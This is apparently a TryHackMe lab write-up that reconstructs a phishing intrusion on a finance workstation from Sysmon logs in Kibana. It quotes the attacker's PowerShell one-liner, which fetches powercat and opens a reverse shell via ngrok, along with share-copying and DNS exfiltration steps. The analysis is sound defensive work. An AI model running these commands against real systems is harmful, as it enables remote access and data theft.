










# Threat Hunting: Hunt Me I, Payment Collectors

## TL;DR

A Senior Finance Director at SwiftSpend was phished with a fake vendor invoice, which deployed a reverse shell through a disguised shortcut file. From there I traced a live interactive attacker session that enumerated the host, staged financial records from a network share into a local folder, zipped them, and exfiltrated the archive out over DNS lookups to an external domain. I recovered the exfiltrated files intact using CyberChef, confirming exactly what was stolen. Full investigation below.

## Environment

- **Platform**: TryHackMe, room "Hunt Me I: Payment Collectors"
- **SIEM**: Elastic Stack (Kibana), Winlogbeat-shipped Windows event logs with Sysmon
- **Host**: WKSTN-01.swiftspendfinancial.thm
- **Victim**: Michael Ascot, Senior Finance Director, SwiftSpend
- **Domain**: swiftspendfinancial.thm

## Lab Objective

A phishing email compromised a Finance Director's workstation. A follow-up email from the impersonated vendor warned that their systems had been breached and that any attachments sent under their name should be treated as suspect. The objective is to hunt the workstation and domain logs to reconstruct what happened and determine what damage, if any, was done.

## Tools and Technologies

- Kibana KQL (Kibana Query Language)
- Sysmon event logs shipped via Winlogbeat
- CyberChef (Base64 decoding, unzip recipe)

---

## Investigation

### Tracing the Phishing Attachment

I started from the scenario itself: Michael downloaded an attachment from a spoofed Abotech Waste Management invoice email on September 15. I set the time window to that date and looked for file creation activity tied to Outlook with a ZIP extension (T1566.001, spearphishing attachment):

```
winlog.event_id: 11 AND *.zip* AND *outlook*
```





Three hits confirmed the file: `Invoice_AT_2023-227.zip`, created by `OUTLOOK.EXE` under `AppData\Local\Microsoft\Windows\INetCache\Content.Outlook`. One of the three events was the file itself, the other two were its `Zone.Identifier` alternate data stream, the Mark-of-the-Web artifact Windows attaches to anything downloaded from the internet. That confirms the file's origin independently of the email itself.

With the ZIP identified, I needed to know what was inside it. My first instinct was to look for a straightforward file creation event for whatever got extracted:

```
winlog.event_id: 11
```

Only 20 results came back for the whole day, and going through them one by one, nothing matched an extracted file from that ZIP. That ruled out a plain file-creation event as the right lead. I reconsidered the mechanism: if Michael double-clicked the ZIP to open it, the process responsible would be `explorer.exe`, not a background service, and a new folder sharing the ZIP's name was likely to appear alongside whatever got extracted. I searched on that basis instead:

```
process.name: Explorer.exe AND *Invoice_AT_2023-227*
```



That surfaced it. The event type was Sysmon Event ID 15 (file stream created), not ID 11, which explained why my first broad search missed it entirely, I had been filtering on the wrong event type. The extracted file was `Payment_Invoice.pdf.lnk.lnk`, inside a folder named `Invoice_AT_2023-227`, inside the user's Temp directory. The double extension is a deliberate disguise: to a user glancing at the file, it reads as a PDF, but it's actually a Windows shortcut (LNK), a file type commonly abused to launch arbitrary commands the moment it's opened (T1204.002, malicious file).

### From Shortcut to Reverse Shell

With the LNK file identified, the next question was what it launched when Michael opened it. I tried anchoring directly on the filename across parent and child process fields:

```
((process.parent.file_name:"Payment_Invoice.pdf.lnk.lnk" or
process.parent.name:"Payment_Invoice.pdf.lnk.lnk") or
file.name:"Payment_Invoice.pdf.lnk.lnk") AND winlog.event_id: 1
```

No results. I broadened it, dropping the event ID restriction:

```
"Payment_Invoice.pdf.lnk.lnk" AND winlog.event_id: 1
```

Still nothing. Broadened again, dropping all filters except the filename itself:

```
"Payment_Invoice.pdf.lnk.lnk"
```

Only the same two extraction events from before came back. LNK files don't carry their own name into the process command line the way an executable would, so searching for the filename directly was never going to work once the shortcut actually executed. I needed a different anchor: process lineage. The `explorer.exe` event from the previous step had a process ID of 3180, so I looked for whatever it had spawned:

```
process.parent.pid: 3180
```



This is where the investigation broke open. The single result showed a `powershell.exe` process launched directly by explorer, running:

```
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -c
"IEX(New-Object
System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');
powercat -c 2.tcp.ngrok.io -p 19282 -e powershell"
```

Reading this command line in order: it downloads `powercat.ps1`, an open-source PowerShell netcat equivalent, as a raw string from GitHub, then immediately pipes it into `Invoke-Expression` (IEX) to execute it directly in memory without ever writing the script to disk (T1059.001, PowerShell; T1105, ingress tool transfer, executed fileless). Once loaded, `powercat` connects out to `2.tcp.ngrok.io` on port 19282 and spawns an interactive PowerShell session over that connection. Ngrok is a legitimate tunneling service, and its abuse here means the attacker doesn't need any inbound port opened or any infrastructure of their own directly exposed, the tunnel does that work for them. In effect, this is a reverse shell, and from this point on I treated the host as having live, interactive remote access from the attacker.

### Pulling the Session Thread

The PowerShell process from the reverse shell command carried PID 3880. I pivoted on that to see what it spawned next:

```
process.parent.pid: 3880
```



Two child processes came back, PID 6492 and PID 9060. I checked the first one:

```
process.parent.pid: 6492
```

No results, a dead end. I checked the second:

```
process.parent.pid: 9060
```

This is where the attacker's actual interactive session becomes visible.

### Enumeration and the Bypass Session

The results under PID 9060 showed a sequence of standard host and privilege reconnaissance commands: `systeminfo.exe`, `whoami.exe`, `whoami.exe /priv`, `net.exe user`, and `net.exe localgroup` (T1082, system information discovery; T1033, system owner/user discovery; T1069, permission groups discovery).



The last event in that same set was a new PowerShell process launched with `-ExecutionPolicy Bypass`, which forces that specific process to run scripts regardless of the host's configured execution policy. That's a deliberate step, not an accident, taken specifically to guarantee whatever runs next in that session won't be blocked. I noted its PID, 3728, to come back to.

Before following that thread, I wanted to see everything tied to PID 9060 itself, not just what it had spawned as children, since the earlier enumeration commands were themselves children of 9060 rather than 9060's own activity:

```
process.pid: 9060
```



Two things stood out here. First, a script named `PowerView.ps1` had been downloaded into the user's Downloads folder. PowerView is a well-known Active Directory reconnaissance and enumeration tool, and its presence on disk signals clear intent toward domain enumeration. Second, a file named with the `__PSScriptPolicyTest_` prefix appeared under a Temp path, a standard artifact Windows PowerShell generates internally when it evaluates a script's execution policy or runs an AMSI check. It isn't attacker tooling in itself, but it is forensic confirmation that a script policy evaluation took place during this session.

I looked for any subsequent execution of PowerView.ps1, either as a direct process invocation or referenced inside a command line, and found none in the available data. It was downloaded and never observed running. I address this directly in the Analyst's Note below rather than assuming what it was used for.

### Staging the Exfiltration

Since PowerView.ps1 had landed in the Downloads folder, I widened the search to the same folder for the remainder of the day, to see what else the attacker had placed there:

```
winlog.event_id: 11 AND file.path: *Downloads*
```



Five events told a clear story. After the PowerView download, a folder named `exfiltration` was created directly in Downloads, not a subtle name. Two files then appeared inside it: `ClientPortfolioSummary.xlsx` and `InvestorPresentation2023.pptx`, both plausible high-value financial documents rather than anything native to the workstation. Finally, everything in that folder was zipped into `exfilt8me.zip`. The naming throughout this stage makes no attempt at concealment, which suggests the attacker either didn't expect this host to be monitored closely or simply didn't prioritize stealth at this stage. Either way, I still needed to establish how those two files got onto the workstation in the first place.

### Reconstructing the Theft

That answer was sitting in the bypass session I'd flagged earlier, PID 3728. I pulled everything spawned from it:

```
process.parent.pid: 3728
```



Twenty-one events, and read in order they lay out the full mechanism (T1039, data from network shared drive):

```
"C:\Windows\system32\net.exe" use Z: \\FILESRV-01\SSF-FinancialRecords
```

This maps the network share `\\FILESRV-01\SSF-FinancialRecords` to the local `Z:` drive, giving direct file-level access to whatever financial records live on that share.

```
"C:\Windows\system32\Robocopy.exe" . C:\Users\michael.ascot\downloads\exfiltration /E
```

Robocopy then recursively copies everything from the current working directory, the newly mapped `Z:` share, into the `exfiltration` folder in Downloads. This is where `ClientPortfolioSummary.xlsx` and `InvestorPresentation2023.pptx` actually came from, copied wholesale off the financial records share.

```
"C:\Windows\system32\net.exe" use Z: /delete
```

Immediately after, the attacker unmaps the Z: drive. This is basic anti-forensics, removing the visible evidence of the share connection once the copy is complete, though the underlying command execution remains fully visible in the process logs regardless.

The remaining events in this same set were a burst of `nslookup.exe` queries, each one resolving a long, clearly encoded string as a subdomain of `haz4rdw4re.io`. This is DNS exfiltration: data encoded into the subdomain labels of outbound DNS queries, a channel that's frequently allowed through egress filtering because DNS resolution is assumed to be benign traffic (T1048, exfiltration over alternative protocol).

### Recovering the Exfiltrated Data

To confirm exactly what left the network, I took the encoded strings from the nslookup queries, concatenated them in the order they were issued, and ran them through CyberChef using a From Base64 recipe followed by Unzip.



The recipe recovered both files intact, `ClientPortfolioSummary.xlsx` and `InvestorPresentation2023.pptx`, confirming precisely what the attacker exfiltrated and that the DNS channel had in fact carried the full contents of `exfilt8me.zip` out of the environment.

---

## Attack Timeline

```
2023-09-15 18:39:44  Michael downloads Invoice_AT_2023-227.zip via Outlook
2023-09-15 18:41:11  Explorer.exe extracts Payment_Invoice.pdf.lnk.lnk (Sysmon 15)
2023-09-15 18:41:12  LNK spawns powershell.exe, downloads powercat.ps1 via IEX,
                      opens reverse shell to 2.tcp.ngrok.io:19282 (PID 3880)
2023-09-15 18:41:15  Reverse shell session spawns interactive child (PID 9060)
2023-09-15 18:41:28  systeminfo.exe executed
2023-09-15 18:41:36  whoami.exe executed
2023-09-15 18:41:44  whoami.exe /priv executed
2023-09-15 18:41:50  net.exe user executed
2023-09-15 18:41:57  net.exe localgroup executed
2023-09-15 18:42:11  PowerView.ps1 downloaded to Downloads (not observed executing)
2023-09-15 18:42:36  powershell.exe -ExecutionPolicy Bypass spawned (PID 3728)
2023-09-15 18:44:18  net use Z: \\FILESRV-01\SSF-FinancialRecords
2023-09-15 18:44:11  exfiltration folder created in Downloads
2023-09-15 18:45:05  Robocopy copies share contents into exfiltration folder
                      (ClientPortfolioSummary.xlsx, InvestorPresentation2023.pptx)
2023-09-15 18:45:16  net use Z: /delete
2023-09-15 18:45:34  exfilt8me.zip created
2023-09-15 18:46:03  Burst of nslookup.exe queries to haz4rdw4re.io (DNS exfiltration)
```

## IOC Summary Table

| Type | Value | Context |
|---|---|---|
| File | Invoice_AT_2023-227.zip | Phishing attachment, delivered via Outlook |
| File | Payment_Invoice.pdf.lnk.lnk | Disguised LNK dropper inside the ZIP |
| URL | raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1 | Fileless tool download via IEX |
| Domain | 2.tcp.ngrok.io | Reverse shell relay (port 19282) |
| File | PowerView.ps1 | Downloaded AD recon tool, no observed execution |
| Path | \\FILESRV-01\SSF-FinancialRecords | Financial records network share, source of stolen data |
| Path | C:\Users\michael.ascot\downloads\exfiltration | Staging folder for stolen files |
| File | ClientPortfolioSummary.xlsx | Exfiltrated financial document |
| File | InvestorPresentation2023.pptx | Exfiltrated financial document |
| File | exfilt8me.zip | Archive exfiltrated via DNS |
| Domain | haz4rdw4re.io | DNS exfiltration destination |
| Host | WKSTN-01.swiftspendfinancial.thm | Compromised workstation |

## MITRE ATT&CK Mapping Table

| Tactic | Technique | ID |
|---|---|---|
| Initial Access | Spearphishing Attachment | T1566.001 |
| Execution | User Execution: Malicious File | T1204.002 |
| Execution | PowerShell | T1059.001 |
| Command and Control | Ingress Tool Transfer | T1105 |
| Discovery | System Information Discovery | T1082 |
| Discovery | System Owner/User Discovery | T1033 |
| Discovery | Permission Groups Discovery | T1069 |
| Collection | Data from Network Shared Drive | T1039 |
| Exfiltration | Exfiltration Over Alternative Protocol | T1048 |

## Analyst's Note: PowerView.ps1, Downloaded but Never Observed Executing

PowerView.ps1 was downloaded into the Downloads folder during the same session that carried out enumeration, staging, and exfiltration, but I found no event anywhere in scope showing it actually invoked, no direct process execution, no reference inside a PowerShell command line, nothing. This is a genuine gap rather than a finding I can complete with assumption. It's entirely possible the attacker staged it for AD enumeration but pivoted directly to the file share instead, ran it in a way this data doesn't capture, or simply never got to it before exfiltrating what they already had access to. Whatever the reason, presenting it as unused tooling is the honest read of what the logs actually show, and it's a useful discipline to carry forward: not every artifact recovered from a compromised host was necessarily used.

## Implications for a SOC Analyst

This investigation is a strong example of why pivoting on process lineage matters more than pivoting on filenames. The LNK file's own name never appeared anywhere in the process logs once it executed, and a name-based search kept coming back empty at every level of broadening. It was only by anchoring on the parent process ID of the event that had already been confirmed, and following that PID forward generation by generation, that the reverse shell command surfaced at all. Filenames are cosmetic and trivially changed between campaigns. Process lineage, PID to PPID, event to event, is what actually holds an attack chain together, and it's the thread that should be pulled whenever a direct artifact search dries up.

The abuse of a legitimate tunneling service for command and control is also worth carrying forward. Ngrok, or services like it, let an attacker stand up a reverse shell without exposing any infrastructure of their own directly to the compromised host, and outbound connections to well-known tunneling domains are exactly the kind of low-and-slow signal that's easy to miss in a sea of legitimate outbound traffic. A detection built around known tunneling service domains combined with a PowerShell parent process is a reasonable, low-noise rule to draw directly from this case.

Finally, the DNS exfiltration channel here is a clean illustration of why egress filtering can't stop at IP and domain reputation alone. Nothing about the nslookup traffic itself would look unusual in volume terms if it blended into legitimate DNS activity, the content of the subdomain labels was the only tell. Any DNS monitoring solution worth deploying needs to flag on subdomain entropy and length, not just destination reputation, since a first-seen malicious domain won't always be caught by a blocklist before the data has already left.

---